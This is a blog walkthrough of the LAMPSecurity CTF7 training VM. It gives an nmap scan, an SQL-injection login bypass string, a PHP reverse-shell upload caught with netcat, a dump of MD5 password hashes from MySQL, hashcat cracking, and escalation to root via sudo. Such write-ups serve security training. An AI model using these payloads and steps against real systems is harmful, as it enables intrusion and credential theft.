 ```yaml
---
layout: blog_item
title:  "LAMP Security CTF7 - Walkthrough"
date:   2014-04-02 20:00:30
author: Arr0way
description: 'LAMP Security CTF 7 - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The LAMPSecurity project is an effort to produce training and benchmarking
tools that can be used to educate information security professionals and test
products.

**Author:** madirish2600

**Download:** [VulnHub](https://www.vulnhub.com/)


## Enumeration

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.134

{% endhighlight %}

<div class="note info">
  <h5>Dislcaimer: Multiple Entry Points</h5>
  <p>The LAMPSecurity series is not particularly challenging, for each VM in the series I've targeted the <b>web application</b> as the entry point.</p>
</div>

### Host Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 5.3 (protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.15 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 139</code></p></pc>
           </td>
           <td>
              <pc><p>Samba</p></pc>
           </td>
           <td>
               <pc><p>Samba smbd 3.X (workgroup: MYGROUP)</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 901</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Samba SWAT administration server</p></pc>
           </td>
        </tr>
        <tr>
          <td>
               <pc><p><code>TCP: 8080</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.15 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 10000</code></p></pc>
           </td>
           <td>
              <pc><p>Webmin</p></pc>
           </td>
           <td>
               <pc><p>(Webmin httpd)</p></pc>
           </td>
        </tr>

     </tbody>

</table>
</div>

## Web Application Enumeration

Host enumeration discovered two web application, one on port <code>80</code> and one on port
<code>8080</code>, as with the previous CTF series VM's, other entry points are
ignored and the **web application** is used for the entry point.

## Web Application on Port 8080

Inspection of the web application revealed it's vulnerable to an SQLi
authentication bypass. By Entering <code>' or 1=1 -- .</code> in the username
field an attacker can successfully login as admin.

![SQL Injection Auth Bypass](/img/blog/ctf7/sqli.png)

Admin account:

![Admin Account SQLi](/img/blog/ctf7/admin-login.png)

### PHP Shell Upload

With admin access to the web application it was possible to upload a reverse
shell.

![Reverse PHP Shell](/img/blog/ctf7/upload-shell.png)

Execution of the php shell was not possible via the web application directly.

### Dirbuster

Dirbuster disclosed the location of the file uploads directory
<code>/assets/</code>.

![OWASP Dirbuster](/img/blog/ctf7/dirbuster.png)

### Reverse Shell

![Execute Reverse Shell](/img/blog/ctf7/exec-webshell.png)

Executing the php script resulted in a reverse shell as the user apache:

{% highlight bash %}
[root:~]# nc -n -v -l -p 443
listening on [any] 443 ...
connect to [192.168.221.134] from (UNKNOWN) [192.168.221.133] 58599
Linux localhost.localdomain 2.6.32-279.el6.i686 #1 SMP Fri Jun 22 10:59:55 UTC
2012 i686 i686 i386 GNU/Linux
01:12:47 up  2:37,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
context=system_u:system_r:httpd_t:s0
sh: no job control in this shell
sh-4.1$
{% endhighlight %}

## Local Enumeration

Local enumeration discovered mysql root account could be accessed locally
without a password:

{% highlight bash %}
mysql -u root  and no password worked as the apache user.
{% endhighlight %}

### MySQL

{% highlight bash %}
mysql> select username, password from users;
select username, password from users;
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------+
| username
| password                         |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------+
| brian@localhost.localdomain
| 4cb9c8a8048fd02294477fcb1a41191a |
| john@localhost.localdomain
| 0d9ff2a4396d6939f80ffe09b1280ee1 |
| alice@localhost.localdomain
| 2146bf95e8929874fc63d54f50f1d2e3 |
| ruby@localhost.localdomain
| 9f80ec37f8313728ef3e2f218c79aa23 |
| leon@localhost.localdomain
| 5d93ceb70e2bf5daa84ec3d0cd2c731a |
| julia@localhost.localdomain
| ed2539fe892d2c52c42a440354e8e3d5 |
| michael@localhost.localdomain
| 9c42a1346e333a770904b2a2b37fa7d3 |
| bruce@localhost.localdomain
| 3a24d81c2b9d0d9aaf2f10c6c9757d4e |
| neil@localhost.localdomain
| 4773408d5358875b3764db552a29ca61 |
{% endhighlight %}

### Hashcat md5 cracking

The hashes were placed in a text file using the following format:

{% highlight bash %}
brian@localhost.localdomain:4cb9c8a8048fd02294477fcb1a41191a
john@localhost.localdomain:0d9ff2a4396d6939f80ffe09b1280ee1
alice@localhost.localdomain:2146bf95e8929874fc63d54f50f1d2e3
ruby@localhost.localdomain:9f80ec37f8313728ef3e2f218c79aa23
leon@localhost.localdomain:5d93ceb70e2bf5daa84ec3d0cd2c731a
julia@localhost.localdomain:ed2539fe892d2c52c42a440354e8e3d5
michael@localhost.localdomai:9c42a1346e333a770904b2a2b37fa7d3
bruce@localhost.localdomai:3a24d81c2b9d0d9aaf2f10c6c9757d4e
neil@localhost.localdomain:4773408d5358875b3764db552a29ca61
charles@localhost.localdomai:b2a97bcecbd9336b98d59d9324dae5cf
{% endhighlight %}

NOTE: In order for hashcat to ignore usernames in a hash input file you need to
specify <code>--username </code>

{% highlight bash %}
[root:~]# hashcat --username -m 0 -a 0 crack-ctf7.txt
/usr/share/wordlists/rockyou.txt
{% endhighlight %}

#### Cracked MD5 Hashes

{% highlight bash %}
ed2539fe892d2c52c42a440354e8e3d5:madrid
4cb9c8a8048fd02294477fcb1a41191a:changeme
5d93ceb70e2bf5daa84ec3d0cd2c731a:qwer1234
2146bf95e8929874fc63d54f50f1d2e3:turtles77
9c42a1346e333a770904b2a2b37fa7d3:somepassword
b2a97bcecbd9336b98d59d9324dae5cf:chuck33
{% endhighlight %}

## Local Privilege Escalation

The julia account was able to <code>su</code> to root.

{% highlight bash %}
bash-4.1$ su - julia
su - julia
Password: madrid

[julia@localhost ~]$ sudo -s
sudo -s
[sudo] password for julia: madrid

[root@localhost julia]# id
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:httpd_t:s0
[root@localhost julia]#
{% endhighlight %}

Thanks for the VM :)
